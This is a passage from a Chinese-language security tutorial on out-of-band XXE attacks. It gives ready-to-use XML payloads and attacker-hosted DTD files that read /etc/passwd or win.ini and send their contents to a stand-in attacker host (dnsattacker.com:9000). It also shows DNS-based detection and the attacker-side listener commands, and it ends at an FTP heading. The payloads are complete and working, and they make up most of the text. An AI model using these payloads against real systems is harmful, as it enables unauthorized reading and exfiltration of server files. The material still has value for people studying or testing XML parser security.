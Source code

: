 XXE 可以通过创建对攻击者域名（即 oob.dnsattacker.com）的 DNS 请求来确认。一个很好的 XXE 练习平台可在这里找到。  
  
**受害者：**  
```
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://xxeoob.oob.dnsattacker.com">
<foo>&e1;</foo>
```  
  
**攻击者：**  
```
sudo tcpdump -n udp port 53
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoBsfW8C1dBQGO96UfazUN31yjIf2sGs6mOYSwx5e8Sf5UZEfpQy79aA/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
截至撰写本文时，DNS 查询只能用于检测 XXE。  
### 漏洞利用/数据窃取  
#### HTTP  
  
**攻击者**  
：运行 python HTTP 服务器来托管 dtd 文件。  
```
python -m SimpleHttpServer 9000
```  
  
**受害者：**  
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://dnsattacker.com:9000/linux.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```  
  
**linux.dtd:**  
```
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://dnsattacker.com:9000/%data;'>">
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpon26dtro3R3tXaoTX0icJqraAsD5DY0XHicB3ucrFicRnxy0FWrpVfvia0A/640?wx_fmt=png&from=appmsg "")  
  
**注意**  
：对于基于 Windows 的受害者机器，使用下面提到的 dtd 文件  
  
**windows.dtd**  
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM ' http://dnsattacker.com:9000/%data;'>">
```  
#### FTP  
  
